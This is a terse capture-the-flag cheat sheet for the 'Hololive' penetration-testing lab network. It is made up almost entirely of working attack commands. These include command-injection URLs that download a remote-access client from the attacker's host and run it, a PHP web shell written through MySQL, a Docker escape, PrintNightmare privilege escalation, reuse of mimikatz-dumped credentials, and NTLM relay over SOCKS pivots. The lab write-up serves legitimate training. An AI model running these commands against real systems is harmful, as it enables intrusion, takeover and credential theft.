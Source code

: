 # Hololive

This isn't so much a walkthrough as a sort of cheat sheet to plow through the machines. Instead of covenant, sshuttle or chisel I did all pivoting/forwarding using https://github.com/NHAS/reverse_ssh, which allowed me to treat each compromised machine as sort of a ssh server for which I had the private key using my attack box, which ran the server, as a jump host.

I also ran a webserver on port 1234 from the reverse ssh bin directory, to allow client binaries to be pulled.

## First machine

You need to log in over web first with the creds you can gain from file inclusion on dev.holo.live to admin.holo.live. Then the below will download the client and run it.

```
curl -H "Host: admin.holo.live" -H "Cookie: PHPSESSID=r77viip9g6kk79uharpdu94suq" "http://10.200.107.33/dashboard.php?cmd=curl+10.50.103.246%3a1234/client+>+/tmp/client+%26%26+chmod+%2bx+/tmp/client+%26%26+/tmp/client+10.50.103.246%3a3232"
```

## Escaping docker

The creds for the database are in db_connect.php.

```
mysql -u admin -h 192.168.100.1 -p
select '<?php system($_GET[1]) ?>' into outfile '/var/www/html/c.php';
curl "192.168.100.1:8080/c.php?1=curl+10.50.103.246%3a1234/client+>+/tmp/client+%26%26+chmod+%2bx+/tmp/client+%26%26+/tmp/client+10.50.103.246%3a3232"
```

## Privesc

```
/usr/bin/docker run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt sh
wget 10.50.103.246:1234/client -O /home/client && chmod 4555 /home/client
```

Then docker can be exited and the following run to get a root connection: `/home/client 10.50.103.246:3232`

## First windows machine

Reset gurags password to get access to the upload form. This can be done by requesting a reset, then passing the token that the reset responds with in the querystring.

Once done, upload a simple-php-shell.php that executes off cmd.

```
curl "http://10.200.107.31/images/simple-php-shell.php?cmd=powershell+%22%28New-Object+System.Net.WebClient%29.Downloadfile%28%27http%3A%2F%2F10.50.103.246%3A1234%2Fclient.exe%27%2C%27client.exe%27%29%22"
curl "http://10.200.107.31/images/simple-php-shell.php?cmd=client.exe+10.50.103.246%3A3232"
```

## Second windows machine, PC-FILESRV01

Set up a socks proxy on the attack box with  `ssh -ND 9050 -J localhost:3232 <id>`. Then install `rdesktop` and use it with proxychains: `proxychains rdesktop 10.200.107.35`.

The username is `HOLOLIVE/watamet`, with the password dumped from the previous machine using mimikatz.

Once you have a desktop, open powershell, navigate to `c:\windows\tasks`, and run:

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.50.103.246:1234/client.exe','client.exe')"
./client.exe 10.50.103.246:3232
```

## Privesc

The scheduled task approach seems broken. Instead use print nightmare.

```
scp -J 34.255.196.28:3232 .\CVE-2021-1675.ps1 bb73f51ee27097306880d119ab9cdc230ca258a2:c:\\windows\\Tasks\\cve.ps1
Import-Module ./cve.ps1
Invoke-Nightmare
runas /user:adm1n "c:\\windows\\tasks\\client.exe 10.50.103.246:3232"
```

## Final attack - ntlm setup

Ensure smb is not running on PC-FILESRV by running the following from a command prompt:

```

```

Kill the service running on port 80 on the attackbox. It can be found with `netstat -tulpn`.

Install some prereqs and get the right version of impacket:

```
apt install krb5-user cifs-utils
wget https://github.com/SecureAuthCorp/impacket/releases/download/impacket_0_9_22/impacket-0.9.22.tar.gz
tar -xf impacket-0.9.22.tar.gz
cd impacket-0.9.22
python3 -m pip install .
```

Setup a socks proxy to the target machine so ntlm relay will be able to attack the DC:

```
ssh -J 34.244.39.187:3232 -ND 172.22.176.1:9050 f9ab0daa2f97e94130d8c74a56ad9e055b3461ae
proxychains ntlmrelayx.py -t smb://10.200.107.30 -smb2support -socks
```

Set up a reverse port forward to capture smb packets:

```
ssh -NR 0.0.0.0:445:localhost:445 -J localhost:3232 bc930adddb17e253edfe31ed958c9e435ad31df3
```

## Final machine

Finally, to connect, use a socks4 proxy in proxychains (maybe seperate machine, as i did)

```
socks4 <attackbox> 1080
proxychains rdesktop 10.200.107.35
```
